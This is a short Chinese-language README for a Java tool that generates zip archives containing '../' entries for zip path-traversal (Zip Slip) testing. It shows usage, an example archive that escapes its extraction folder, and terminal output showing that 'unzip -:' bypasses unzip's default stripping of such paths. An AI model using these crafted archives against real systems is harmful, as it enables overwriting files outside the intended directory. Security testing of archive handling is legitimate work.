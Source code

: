 # zip_path_traversal
java生成包含../目录的压缩包

## 使用
`java -jar generateZip.jar parm1 parm2 parm3`

第一个参数是需要压缩的源路径；第二个参数是压缩文件的目的路径，这边需要将压缩的文件名字加上去;第三个参数为zip压缩包中的目录命名

## Example
`java -jar generateZip.jar "D:\\dir1\\dir2\\dir3\\test.txt"  "D:\\dir1\\dir2\\dir3\\test.zip" "../../"`

在D:\\dir1\\dir2\\dir3\\生成目录结构为../../test.txt的test.zip压缩包，该压缩包解压会跳到D:\\dir1\\test.txt

## 注
linux下使用unzip解压该zip包路径会被限制：
(```) 
root@6d943786cd4c:~# unzip 11.zip 
Archive:  11.zip
warning:  skipped "../" path component(s) in ../../../tmp/1.txt
  inflating: tmp/1.txt 
(```)
使用`unzip -: 11.zip`解压被不会被限制
(```)
root@6d943786cd4c:~# unzip -: 11.zip 
Archive:  11.zip
  inflating: ../../../tmp/1.txt
(```)
